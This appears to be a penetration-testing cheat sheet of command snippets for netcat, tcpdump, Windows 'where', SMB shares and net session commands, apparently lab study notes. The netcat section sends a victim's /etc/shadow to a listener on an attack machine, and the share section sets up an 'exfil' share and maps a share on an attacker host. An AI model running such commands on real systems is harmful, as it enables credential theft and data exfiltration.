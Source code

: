 ### netcat
```bash
# file transfer
1. fire up netcat listener on our attack kali machine
nc -lvnp 4444 > copiedNetcatShadow.txt
2. send the file from victim machine!
nc 192.168.48.3 4444 < /etc/shadow


```

### tcpdump
```bash
# filter port 53
sudo tcpdump -i ens192 udp port 53
```

### cmd
```bash
# Using Where
## calc.exe works because system32 folder is in our environment variable path
C:\Users\student\Desktop>where calc.exe
C:\Windows\System32\calc.exe

# Recursive Where
where /R C:\Users\student\ bio.txt
where /R C:\Users\student\ *.csv
```

**share**
```bash
# create exfil folder and share
mkdir exfil
net share Exfil=C:\Users\njeon\Downloads\exfil

# check what is currently being shared on our localhost
net view \\127.0.0.1

# check what's being shared on our network(Displays available smb shares)
net share

# connect to the share on a remote host
net use m: \\<% tp.frontmatter["LHOST"] %>\test /user:joe joe /persistent:yes
```

**network**
```bash
# Display all sessions connected to the computer and deletes them if specified.
net session

# Display information about your connections
net use
```
